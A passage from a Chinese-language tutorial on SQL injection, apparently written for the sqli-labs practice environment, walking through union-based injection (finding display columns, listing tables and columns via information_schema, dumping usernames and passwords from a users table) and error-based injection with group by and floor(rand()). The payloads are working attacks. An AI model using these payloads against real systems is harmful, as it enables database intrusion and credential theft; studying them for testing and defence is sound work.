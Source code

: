 <pre class="prettyprint"><code class="language-sql hljs ">id=-1 union <span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-number">3</span> 
id=<span class="hljs-number">1</span> <span class="hljs-keyword">and</span> <span class="hljs-number">1</span>=<span class="hljs-number">2</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,<span class="hljs-number">2</span>,<span class="hljs-number">3</span></span></code></pre>
<p>如果是1显示出来，那么1就是显示位</p>
<h3 id="查看数据库">查看数据库</h3>
<pre class="prettyprint"><code class="language-sql hljs ">union <span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,version(),<span class="hljs-keyword">database</span>()</span></code></pre>
<h3 id="查选表名">查选表名</h3>
<p>由于database()返回的就是当前web程序所使用的数据库名，那么我们就利用database()来查询所有的表信息。当然在上一步中。我们也已经知道当前的database就是security。那么我们构造的payload如下：</p>
<pre class="prettyprint"><code class="language-sql hljs "> union <span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,group_concat(table_name),<span class="hljs-number">3</span> <span class="hljs-keyword">from</span> information_schema.tables <span class="hljs-keyword">where</span> table_schema=<span class="hljs-keyword">database</span>()</span></code></pre>
<h3 id="查选列名">查选列名</h3>
<p>在知道了表名之后，接下来我们利用information_schema.columns就可以根据表名来获取当前表中所有的字段。payload如下：</p>
<pre class="prettyprint"><code class="language-sql hljs ">id=-1 union <span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,group_concat(column_name),<span class="hljs-number">3</span> <span class="hljs-keyword">from</span> information_schema.columns <span class="hljs-keyword">where</span> table_name=<span class="hljs-string">'users'</span>
id=-<span class="hljs-number">1</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,group_concat(column_name),<span class="hljs-number">3</span> <span class="hljs-keyword">from</span> information_schema.columns <span class="hljs-keyword">where</span> table_name=<span class="hljs-number">0x7573657273</span>(users的十六进制)</span></code></pre>
<h3 id="查看数据库内容">查看数据库内容</h3>
<p>在知道了当前数据库所有的表名和字段名之后，接下来我们就可以dump数据库中所有的信息了。比如我们下载当前users表中所有的数据。可以使用如下的payload：</p>
<pre class="prettyprint"><code class="language-sql hljs ">id=-1 union <span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span>,group_concat(username,password),<span class="hljs-number">3</span> <span class="hljs-keyword">from</span> users</span></code></pre>
<h2 id="2报错注入">（2）报错注入</h2>
<ul>
<li>group by 与 floor rand 函数的报错</li>
</ul>
<p>payload</p>
<pre class="prettyprint"><code class="language-sql hljs ">(<span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-aggregate">count</span>(*) <span class="hljs-keyword">from</span> (<span class="hljs-keyword">select</span> <span class="hljs-number">1</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">2</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">3</span>)x <span class="hljs-keyword">group</span> <span class="hljs-keyword">by</span> concat(<span class="hljs-number">1</span>,floor(rand(<span class="hljs-number">0</span>)*<span class="hljs-number">2</span>)))</span></code></pre>
<p>测试语句</p>
<pre class="prettyprint"><code class="language-sql hljs "><span class="hljs-operator"><span class="hljs-keyword">select</span> <span class="hljs-number">1</span> <span class="hljs-keyword">from</span> yz <span class="hljs-keyword">where</span> (<span class="hljs-keyword">select</span> <span class="hljs-aggregate">count</span>(*) <span class="hljs-keyword">from</span> (<span class="hljs-keyword">select</span> <span class="hljs-number">1</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">2</span> <span class="hljs-keyword">union</span> <span class="hljs-keyword">select</span> <span class="hljs-number">3</span>)x <span class="hljs-keyword">group</span> <span class="hljs-keyword">by</span> concat(<span class="hljs-number">222</span>,floor(rand(<span class="hljs-number">0</span>)*<span class="hljs-number">2</span>)));</span></code></pre>
<p>显示 <br>
Duplicata du champ ‘2221’ pour la clef ‘group_key’ <br>
在222处存在报错显示点，可利用此点进行报错注入</br></br></p>